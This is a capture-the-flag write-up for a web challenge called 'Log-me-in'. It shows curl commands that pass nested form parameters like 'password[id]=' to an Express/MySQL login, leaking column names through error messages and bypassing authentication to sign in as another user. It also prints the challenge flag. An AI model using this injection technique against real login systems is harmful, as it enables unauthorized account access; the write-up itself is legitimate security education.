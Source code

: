 # Log-me-in (Web)

## Introduction

This challenge comes with the following instructions:

> Log in to get the flag

> [Attachment](app.js)

> https://log-me-in.web.ctfcompetition.com/


The URL leads to this application:

![Initial screen](img/home.png)


We are able to login with standard `admin`/`admin` credentials:

![Login](img/login.png)


Visiting https://log-me-in.web.ctfcompetition.com/flag displays this message:

![Flag page as Admin](img/flag-admin.png)


The goal of this challenge is to find a way to sign in as Michelle.



## Observations

The login process matches this minimal cURL:

```bash
$ curl -v https://log-me-in.web.ctfcompetition.com/login -d 'username=admin' -d 'password=admin'
...
< HTTP/2 302 
< content-type: text/plain; charset=utf-8
< x-powered-by: Express
< location: /me
< vary: Accept
< set-cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIiwiZmxhZyI6IjxzcGFuIGNsYXNzPXRleHQtZGFuZ2VyPk9ubHkgTWljaGVsbGUncyBhY2NvdW50IGhhcyB0aGUgZmxhZzwvc3Bhbj4ifQ==; path=/; httponly
< set-cookie: session.sig=VT8ZiMQxGxmAu1BSzDOvO0c2AFQ; path=/; httponly
< x-cloud-trace-context: 91788d8898e58c9ae9c4811129affb6c
< date: Sun, 24 Aug 2020 19:41:42 GMT
< server: Google Frontend
< content-length: 25
< 
* Connection #0 to host log-me-in.web.ctfcompetition.com left intact
Found. Redirecting to /me
```


We observe that the `session` cookie contains the message displayed on the Flag page:

```bash
$ echo eyJ1c2VybmFtZSI6ImFkbWluIiwiZmxhZyI6IjxzcGFuIGNsYXNzPXRleHQtZGFuZ2VyPk9ubHkgTWljaGVsbGUncyBhY2NvdW50IGhhcyB0aGUgZmxhZzwvc3Bhbj4ifQ== | base64 -d
{"username":"admin","flag":"<span class=text-danger>Only Michelle's account has the flag</span>"}
```


## Exfiltration

The [app.js](app.js) attached in the description contains the same flaw as the [Pasteurize](https://github.com/weibell/ctf-google2020/tree/master/pasteurize) challenge:

```javascript
app.use(bodyParser.urlencoded({
  extended: true
}))
```

This leads to some interesting results:

```html
$ curl -v https://log-me-in.web.ctfcompetition.com/login -d 'username[x]=' -d 'password[y]='
...
<!DOCTYPE html>
<html>
...
        <div class="alert alert-danger alert-dismissible show">
                <h3>Error</h3>
                <p>Unknown error: Error: ER_BAD_FIELD_ERROR: Unknown column &#39;x&#39; in &#39;where clause&#39;</p>
                <button type="button" class="close" data-dismiss="alert">&times;</button>
        </div>
...
```

`username`, `password` and `id` appear to be valid column names.

```bash
$ curl -v https://log-me-in.web.ctfcompetition.com/login -d 'username[id]=' -d 'password[id]='
...
< set-cookie: session=eyJ1c2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJmbGFnIjoiPHNwYW4gY2xhc3M9dGV4dC1kYW5nZXI+T25seSBNaWNoZWxsZSdzIGFjY291bnQgaGFzIHRoZSBmbGFnPC9zcGFuPiJ9; path=/; httponly
...
Found. Redirecting to /me

$ echo eyJ1c2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJmbGFnIjoiPHNwYW4gY2xhc3M9dGV4dC1kYW5nZXI+T25seSBNaWNoZWxsZSdzIGFjY291bnQgaGFzIHRoZSBmbGFnPC9zcGFuPiJ9 | base64 -d
{"username":"administrator","flag":"<span class=text-danger>Only Michelle's account has the flag</span>"}
```

Note that this user `administrator` is different from `admin`.

This allows us to log in as `michelle` without providing a password and retrieving the flag from the cookie:

```bash
$ curl -v https://log-me-in.web.ctfcompetition.com/login -d 'username=michelle' -d 'password[id]='
...
< set-cookie: session=eyJ1c2VybmFtZSI6Im1pY2hlbGxlIiwiZmxhZyI6IkNURnthLXByZW1pdW0tZWZmb3J0LWRlc2VydmVzLWEtcHJlbWl1bS1mbGFnfSJ9; path=/; httponly
...
Found. Redirecting to /me

$ echo eyJ1c2VybmFtZSI6Im1pY2hlbGxlIiwiZmxhZyI6IkNURnthLXByZW1pdW0tZWZmb3J0LWRlc2VydmVzLWEtcHJlbWl1bS1mbGFnfSJ9 | base64 -d
{"username":"michelle","flag":"CTF{a-premium-effort-deserves-a-premium-flag}"}
```

Flag: `CTF{a-premium-effort-deserves-a-premium-flag}`
